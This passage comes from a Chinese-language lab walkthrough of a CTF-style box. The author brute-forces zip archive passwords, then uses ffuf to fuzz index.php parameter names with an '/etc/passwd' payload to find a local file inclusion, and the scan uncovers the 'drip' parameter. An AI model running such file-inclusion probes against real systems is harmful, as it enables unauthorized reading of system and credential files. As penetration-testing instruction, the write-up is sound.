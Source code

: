 ```shell
-rw-r--r-- 1 v4ler1an v4ler1an   20 Sep 19  2021 respectmydrip.txt
-rw-r--r-- 1 v4ler1an v4ler1an  471 Sep 19  2021 respectmydrip.zip
-rw-r--r-- 1 v4ler1an v4ler1an  171 Sep 19  2021 secret.zip
```

还真被我们爆破了这个压缩包。解压secret.zip提示还有密码，继续爆破尝试失败，密码也失败。查看respectmydrip.txt：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cat cat respectmydrip.txt
just focus on "drip"
```

看来是个提示。

### 2. URL Parameters Fuzz

在前面的web directory的scan时，还有一个index.php的路径，我们可以尝试关注下这个文件。该文件处理的是web的主页面：

![image-20231109103704968](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091037335.png)

我们在前面的robot.txt中还有一个`/etc/dripispowerful.html`访问不到，那么可以尝试能不能通过index.php来看下这个文件。

对index.php进行一个get方法的parameters的fuzz看看能不能传递参数，如果包含一个文件包含漏洞，那么就可以访问`/etc/dripispowerful.html`文件了：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tools/scan/wfuzz]
└─$ ffuf -ic -c -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.16.86.144/index.php?FUZZ=/etc/passwd' -fs 138

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.86.144/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 138
________________________________________________

drip                    [Status: 200, Size: 3032, Words: 50, Lines: 58, Duration: 85ms]
:: Progress: [220547/220547] :: Job [1/1] :: 1626 req/sec :: Duration: [0:02:49] :: Errors: 0 ::
```
